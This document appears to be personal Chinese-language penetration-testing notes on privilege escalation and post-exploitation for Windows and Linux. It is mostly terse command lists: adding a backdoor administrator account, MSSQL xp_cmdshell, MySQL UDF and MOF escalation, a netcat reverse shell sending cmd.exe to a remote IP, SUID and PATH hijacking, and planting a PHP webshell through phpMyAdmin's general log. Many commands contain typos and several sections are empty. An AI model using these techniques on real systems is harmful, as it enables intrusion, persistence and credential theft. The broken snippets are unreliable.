


## 提权&内网渗透

> 权限类型：
>
> 1. 匿名访问权限：无密码
> 2. 来宾权限
> 3. 用户权限 普通权限
> 4. 管理员权限
> 5. 系统权限

### 常用命令

> #### windows
>
> 1. 查看登录状态
>
>    `query user`
>
> 2. 用户名
>
>    `whoami`
>
> 3. 系统信息和补丁信息
>
>    `systeminfo`	
>
> 4. 添加管理账号
>
>    `net user test 1234 /add`
>
>    `net localgroup administrators test /add`
>
> 5. 添加远程桌面组
>
>    `net localgroup "Remote Desktop Users" test /add`
>
> 6. 查看端口进程
>
>    `netstat -ano`
>
> 7. 进程占用的端口
>
>    `tasklist`
>
> #### linux 
>
> 1. 查看发行版本
>
>    `cat /etc/issue cat /etc/*-release`
>
> 2. 内核版本
>
>    `uname -a`

### 提权方法

### 基于密码破解的提权

> 获取密码的常用手段
>
> 1. 通过中间人劫持
> 2. 主机窃听
> 3. 系统漏洞：永恒之蓝
> 4. git 配置文件xielou
> 5. 系统后门 shift 后门

### windows密码原理

> 格式：`user:RID:LM-HASH:NT_HASH`
>
> 
>
> 获取秘密
>
> 1. 导出SAM，system
>
>    > SAMcopyer

### linux密码破解

> `/etc/shadow`
>
> `/etc/passwd`
>
> 

## windows 提权

> 尽量用`aspx`的大马
>
> 

### 信息收集：

> `systeminfo | findstr /B /C:"OS版本" /c:"os版本"`
>
> 查看os版本
>
> `hostname`
>
> 主机名
>
> `set`
>
> 环境变量
>
> `net user or net1 user`
>
> 用户信息
>
> `tasklist/svc | find "TermService"`
>
> `netstat -ano | find "3389"`
>
> f服务pid号
>
> 查看系统名：`wmic os get caption`
>
> 系统补丁：`wmic qfe get Description,HotFixID,InstalledOn`
>
> 安装软件：`wmic product get name,version`

### 有写权限：

> 日志
>
> 缓存
>
> 大马所在目录
>
> 回收站

### tips

> ==套件搭建的网站webshell就是管理员权限或者系统权限==
>
> `phpstudy xampp wampserver`

## MSSQL提权

> `xp_cmdshell`:
>
> > 前提获取了`sa`用户密码
> >
> > 

## mysql提权

> ### udf提权:(用户自定义函数提权)
>
> > 1. `whoami`
> >
> > 2. `找到网站连接数据库的配置文件 获取密码`
> >
> > 3. 写入so文件 到目录中
> >
> > 4. 执行创建函数命令
> >
> >    > 
> >
> >    ==windows的udf提权类似 只是文件类型为`.dll`==
> >    
> >    
> >    
> >    
>
> ### mof提权(只适合在低版本的win中 <2003)
>
> > 1. 找到可写目录 一般就是木马目录
> >
> >    > 一般`c:/windows/system32/mof`
> >
> > 2. 执行以下sql语句
> >
> >    > `Select load_file(‘C:/wmpub/nullevt.mof’)into dumpfile’c:/windows/sysrtem32/wbem/mof/nullevt.mof’`
>
> 

## 反弹shell

### windows 反弹shell

> nc 
>
> 本机：`nc -lvpp port`
>
> 靶机：`nc .exe -e cmd.exe ip port`

### linux反弹shell

> 提权辅助脚本

## 漏洞利用

## linux提权

### 信息收集

> `uname -a`

### sudo提权

> ==模拟终端==
>
> `python -c 'import pty;pty.spawn("/bin/sh")'`
>
> 

### 计划任务提权

> 列出计划任务:
> ` ls -l /etc/cron*`

### 三种常用的提权

> #### 内核提权
>
> 1. 系统版本
>
>    `uname -a`
>
> 2. 移动到`/tmp`目录下上传和编译exploit
>
> 3. 交互式终端
>
>    `python -c ‘import pty; pty.spawn(“/bin/bash”)’`
>
> #### suid提权
>
> 1. 寻找具有`suid`标志位的命令
>
>    `find / -perm -u=s -type f 2>/dev/null`
>
> #### 利用环境变量
>
> 1. touch cat
> 2. echo '/bin/sh' > cat
> 3. ./expolit

## phpmyadmin

> `show variables like 'secure_file_priv'`
>
> 为null的时候：
>
> >  打开日志记录
> >
> > `set global general_log="ON";`
> >
> > `set global general_log_file="C:/phpstudy/.../door.php"`
> >
> > `select "<?php enval($_post[id]);?>`操作会保存在日志文件中
> >
> > 
> >
> > 
> >
> > 
> >
> > 
> >
> > )'

### MSF信息收集

> 